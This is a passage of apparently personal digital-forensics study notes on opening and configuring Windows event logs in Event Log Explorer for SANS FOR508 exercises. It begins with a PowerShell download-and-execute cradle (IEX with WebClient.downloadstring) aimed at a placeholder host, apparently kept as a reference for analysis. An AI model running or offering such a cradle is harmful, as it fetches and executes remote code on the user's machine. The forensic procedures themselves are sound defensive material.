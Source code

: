 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```

`cat <file> |xclip -sel c`

<a name="event-log-explorer"></a>
### Event log explorer 
[*back to table of contents*](#b2t)

***WIN-SIFT***

Windows event logs on modern systems can be found in `\Windows\system32\winevt\logs\`. This first example relates to the Security log. 

Open ‘Event Log Explorer’ and then `File > Open Log File > New API`.

Event logs are usually located in `C:\Winodws\system32\winevt\logs`.

If the program cannot open a log try again but with the ‘Direct’ option which is more tolerant of log file corruption.

Whenever opening a new log go through this process:

`View > Time Correction > Select “Display UTC Time”`

On the Windows SIFT we have the ability to add colour coding to the Viewer.

`View > Color Coding > Load… > add “G:\Event-Log-Explorer-Templates\ELEX-Security-Log-Color-Coding.ecc” > Close`

We can also use the SANS custom columns.

`View > Custom Columns > Load > Load all columns > add “G:\Event-Log-Explorer-Templates\ELEX-Security-Log-508-Custom-Columns_English.ccols” > Open > OK`

For the System log complete the steps above but swap out the Security log for the System log and also use the `G:\Event-Log-Explorer-Templates\ELEX-System-Log-Custom-Columns_Any-Language.ccols` file.

Other interesting log locations that are covered in the SANS FOR508 exercises 2.x are:

`TaskScheduler%4Operational.evtx`

`Microsoft-Windows-WMI-Activity%40Operational.evtx`

`Microsoft-Windows-PowerShell-Activity%40Operational.evtx`
